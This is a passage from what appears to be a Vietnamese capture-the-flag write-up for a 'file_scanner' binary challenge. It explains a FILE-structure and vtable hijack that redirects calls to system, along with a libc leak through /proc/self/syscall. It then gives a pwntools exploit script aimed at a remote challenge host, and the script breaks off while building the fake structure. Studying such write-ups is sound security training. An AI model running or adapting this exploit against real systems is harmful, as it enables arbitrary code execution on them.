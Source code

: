 Từ biến `name`, ta hoàn toàn overwrite được `filePtr` lẫn `fileContent`. Vậy mình hoàn toàn fake được `file structure` và `vtable` sao cho toàn bộ hàm trong `vtable` đều là `system`. 

<img src="15.png"/>

Để leak được `libc`, chúng ta có thể mở `/proc/self/maps` hoặc `/proc/self/syscall`. 

Full exploit 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./file_scanner_patched", checksec = False)
libc = ELF("./libc_32.so.6", checksec = False)
ld = ELF("./ld-2.23.so", checksec = False)

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("103.97.125.56", 31381)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

sla(b"ID: ", "") 

# open /proc/self/syscall 
sla(b"choice :", b"1")
sla(b"filename: ", b"/proc/self/syscall")
sla(b"choice :", b"2")
sla(b"choice :", b"3")

libc_leak = int(rl().strip()[-10::], 16)
libc_base = libc_leak - 0x1ba549
system = libc_base + libc.symbols["system"] 

log.info(f"libc base = {hex(libc_base)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"system = {hex(system)}")

sla(b"choice :", b"4")

file = FileStructure()
file.flags = u32(b"/bin")
```